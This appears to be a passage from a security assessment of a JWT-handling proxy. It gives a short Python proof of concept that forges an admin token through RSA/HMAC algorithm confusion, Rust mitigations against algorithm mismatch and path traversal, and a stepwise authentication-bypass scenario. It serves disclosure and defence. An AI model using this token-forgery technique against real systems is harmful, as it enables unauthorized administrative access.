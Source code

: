 ```python
# Sign with public key as HMAC secret
malicious_token = jwt.encode(payload, public_key, algorithm="HS256")
print(f"Malicious token: {malicious_token}")

# Test against proxy
response = requests.get(
    "https://proxy.com/admin",
    headers={"Authorization": f"Bearer {malicious_token}"}
)
print(f"Response: {response.status_code}")
```

## Mitigation Code Examples

### Secure JWT Validation
```rust
// Implement strict algorithm validation
fn validate_algorithm(header: &Header, expected_alg: Algorithm) -> Result<(), ProxyError> {
    if header.alg != expected_alg {
        return Err(ProxyError::SecurityError(
            format!("Algorithm mismatch: expected {:?}, got {:?}", expected_alg, header.alg)
        ));
    }
    Ok(())
}
```

### Path Traversal Prevention
```rust
// Secure path validation
fn validate_secret_path(name: &str) -> Result<(), ProxyError> {
    if name.contains("..") || name.contains("/") || name.contains("\\") {
        return Err(ProxyError::SecurityError("Invalid secret name".to_string()));
    }
    
    // Additional checks for symlinks
    let path = PathBuf::from(name);
    if path.is_symlink() {
        return Err(ProxyError::SecurityError("Symlinks not allowed".to_string()));
    }
    
    Ok(())
}
```

## Attack Scenarios

### Scenario 1: Complete Authentication Bypass
1. **Reconnaissance**: Attacker discovers JWKS endpoint at `/.well-known/jwks.json`
2. **Key Extraction**: Downloads RSA public key from JWKS
3. **Token Crafting**: Creates JWT with admin privileges using algorithm confusion
4. **Privilege Escalation**: Accesses administrative endpoints with forged token
5. **Persistence**: Modifies proxy configuration to maintain access
